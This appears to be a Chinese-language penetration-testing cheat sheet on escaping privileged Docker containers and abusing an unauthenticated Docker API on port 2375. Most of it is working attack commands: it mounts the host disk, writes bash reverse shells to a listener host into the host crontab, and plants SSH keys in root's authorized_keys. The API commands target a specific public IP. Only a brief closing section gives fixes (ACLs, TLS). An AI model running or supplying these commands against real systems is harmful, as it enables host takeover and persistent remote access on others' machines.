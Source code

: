 
# docker 逃逸

启动时如果添加了 `--privileged` 参数，就会以特权模式启动docker，具备所有的Capabilities

```shell
# 1.1 方式1 查看是否在 docker中
ls -alh /.dockerenv
# 1.2 方式2
cat /proc/self/status|grep CapEff
## CapEff: 0000003fffffffff -- 以特权模式的

$ fdisk -l
# * Linux 表示是宿主机
## 如果通过特权模式启动容器，docker run --privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。
/dev/sda1  *        2048 16779263 16777216   8G 83 Linux


mkdir /test
mount /dev/sda1 /test

vi /test/tmp/test.sh
/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1 
#:wq 保存

# 攻击机
nc -lvp 7777

# 写入 crontab
sed -i '$a*/2 *    * * *    root  bash /tmp/test.sh ' /test/etc/crontab

# 或者写入authorized_keys 然后ssh
```

## docker 未授权

访问 http://your-ip:2375/version
```sh
docker -H tcp://47.92.7.138:2375 images
docker -H tcp://47.92.7.138:2375 ps -a
# 启动容器并将宿主机磁盘挂载到/mnt
docker -H tcp://47.92.7.138:2375 run -it -v /:/mnt --entrypoint /bin/bash ubuntu:18.04
cd /mnt/root/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2......." > authorized_keys

# 反弹shell -- 可通过 crontab -e 写入定时任务
* * * * * /bin/sh -i >& /dev/tcp/xxx.xxx.xxx.xxx./1111 0>&1
```


# 0x04 修复建议

1、对 2375 端口做网络访问控制，如 ACL 控制，或者访问规则；

2、修改 docker swarm 的认证方式，使用 TLS 认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS 这两篇文档，说的是配置好 TLS 后，Docker CLI 在发送命令到 docker daemon 之前，会首先发送它的证书，如果证书是由 daemon 信任的 CA 所签名的，才可以继续执行。